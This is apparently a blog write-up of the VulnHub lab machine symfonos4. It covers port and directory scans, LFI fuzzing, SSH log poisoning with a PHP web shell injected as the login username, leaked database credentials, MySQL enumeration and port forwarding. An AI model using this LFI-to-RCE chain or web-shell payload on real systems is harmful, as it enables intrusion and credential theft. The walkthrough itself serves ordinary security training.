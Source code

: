```yaml
---
layout : post
title: symfonos4
image : symfonos4.png
date: 2021-04-17 07:28:00 +5:30 
tags: [LFI , SSHLog file Posioning ,SSH PortForwording , SOCAT PortForwording , mysql]
---
```


# Nmap 

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 22:27 EDT
Nmap scan report for 10.0.2.51 (10.0.2.51)
Host is up (0.00024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 08:00:27:64:A3:27 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds

```

<h3>Gobuster</h3>

```
gobuster dir -u http://10.0.2.51/ -w /usr/share/dirb/wordlists/big.txt -s 200,301,302 -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.51/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2021/04/17 00:19:31 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.php        (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 293]
/.htaccess.html       (Status: 403) [Size: 298]
/.htpasswd.txt        (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 297]
/.htpasswd.html       (Status: 403) [Size: 298]
/.htaccess.txt        (Status: 403) [Size: 297]
/atlantis.php         (Status: 200) [Size: 1718]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.51/css/]
/index.html           (Status: 200) [Size: 201]                            
/javascript           (Status: 301) [Size: 311] [--> http://10.0.2.51/javascript/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.51/js/]        
/manual               (Status: 301) [Size: 307] [--> http://10.0.2.51/manual/]    
/robots.txt           (Status: 403) [Size: 294]                                   
/robots.txt           (Status: 403) [Size: 294]                                   
/sea.php              (Status: 302) [Size: 0] [--> atlantis.php]                  
/server-status        (Status: 403) [Size: 297]                     

```

# Enumeration

at `/atlantis.php` login page is vulnerable to sqli
![]({{site.baseurl}}/img/vulnhub/symfonos4/atlantis.png)

after login page redirects to /sea.php which has LFI 
```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -b 39bu7ekc7nlhdqbf9kcr8bplbj --hc 404 --hh 206 --hw 0 http://10.0.2.51/sea.php?file=FUZZ
```

![]({{site.baseurl}}/img/vulnhub/symfonos4/lfi.png)

from this LFI we need RCE , we can use SSHLogFile Posioning and Get reverse Shell

# Exploitation 
<h3>LFI to RCE using ssh logFile Poisoning </h3>

By inserting the php ReverseShell as a userName during ssh Login , which gave us ReverseShell 

```bash
ssh '<?php system($_GET['cmd']); ?>'10.0.2.51
``` 

![]({{site.baseurl}}/img/vulnhub/symfonos4/exploit.png)

>Found this passwd from linpeasOutput

```bash
var/www/html/atlantis.php:   define('DB_PASSWORD', 'yVzyRGw3cG2Uyt2r');
/var/www/html/atlantis.php:   define('DB_USERNAME', 'root');
```
 >root:yVzyRGw3cG2Uyt2r

<h3>MySql Enumeration</h3>

also port 3306 on ServerLocal host its running mqsql 

```bash

www-data@symfonos4:/tmp$ 
www-data@symfonos4:/tmp$ mysql -h 127.0.0.1 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16
Server version: 10.3.15-MariaDB-1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

ariaDB [(none)]> show database;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'database' at line 1
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| db                 |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.002 sec)

MariaDB [(none)]> use db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [db]> show tables;     
+--------------+
| Tables_in_db |
+--------------+
| users        |
+--------------+
1 row in set (0.000 sec)

MariaDB [db]> select * from users;
+----------+------------------------------------------------------------------+
| username | pwd                                                              |
+----------+------------------------------------------------------------------+
| admin    | b674f184cd52edabf2c38c0142452c0af7e21f71e857cebb856e3ad7714b99f2 |
+----------+------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [db]>

```

# PrivilageEsclation 

 port 8080 is Running on ServerlocalHost
We need to portForword to Enumerate the port 

![]({{site.baseurl}}/img/vulnhub/symfonos4/localport.png)

without ssh password , we can use socat to portForword or use ssh  

<h3>PortForwording Using SOCAT</h3>
```
socat TCP-LISTEN:4444,fork,reuseaddr tcp:120.0.0.1:8080 &
```

<h3>PortForwording Using SSH</h3>
```bash
ssh -L 3333:127.0.0.1:8080 poseidon@10.0.2.51                                                                                255 ⨯
poseidon@10.0.2.51  password: 
Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr 17 02:21:29 2021 from 10.0.2.36
poseidon@symfonos4:~$

```
![]({{site.baseurl}}/img/vulnhub/symfonos4/PF-ssh.png)